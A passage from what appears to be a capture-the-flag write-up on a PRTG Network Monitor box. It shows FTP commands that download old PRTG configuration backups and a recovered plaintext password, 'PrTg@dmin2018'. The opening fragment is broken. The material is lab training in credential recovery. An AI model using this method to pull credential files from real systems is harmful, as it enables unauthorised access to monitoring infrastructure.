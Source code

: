 ```console
                  20
                </sensfoldsize>
```
This has the same username as the default username that I found when I was looking for the default credentials. However the two strings I was not able to decode and in boxes like these you typically do not need to spend a lot of time bruteforcing anything. I must be missing something.

In going through the reddit thread and the [notification](https://www.paessler.com/about-prtg-17-4-35-through-18-1-37) from the vendor about how to fix it, it looks like I should have been looking at the **old** config file - not the current one. Doh!

```console
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  12:40AM       <DIR>          Configuration Auto-Backups
04-28-19  05:12PM       <DIR>          Log Database
02-03-19  12:18AM       <DIR>          Logs (Debug)
02-03-19  12:18AM       <DIR>          Logs (Sensors)
02-03-19  12:18AM       <DIR>          Logs (System)
04-28-19  05:12PM       <DIR>          Logs (Web Server)
02-25-19  08:01PM       <DIR>          Monitoring Database
02-25-19  10:54PM              1189697 PRTG Configuration.dat
02-25-19  10:54PM              1189697 PRTG Configuration.old
07-14-18  03:13AM              1153755 PRTG Configuration.old.bak
04-28-19  05:13PM              1647314 PRTG Graph Data Cache.dat
02-25-19  11:00PM       <DIR>          Report PDFs
02-03-19  12:18AM       <DIR>          System Information Database
02-03-19  12:40AM       <DIR>          Ticket Database
02-03-19  12:18AM       <DIR>          ToDo Database
226 Transfer complete.
ftp> get PRTG Configuration.old
local: Configuration.old remote: PRTG
200 PORT command successful.
550 The system cannot find the file specified. 
ftp> get "PRTG Configuration.old"
local: PRTG Configuration.old remote: PRTG Configuration.old
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1189697 bytes received in 0.54 secs (2.1069 MB/s)
ftp> get "PRTG Configuration.old.bak"
local: PRTG Configuration.old.bak remote: PRTG Configuration.old.bak
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1153755 bytes received in 0.49 secs (2.2460 MB/s)
```

Okay let's see what we can find in these:

![PrTg@dmin2018](./images/pass.PNG)  
**Figure 2:** PrTg@dmin2018
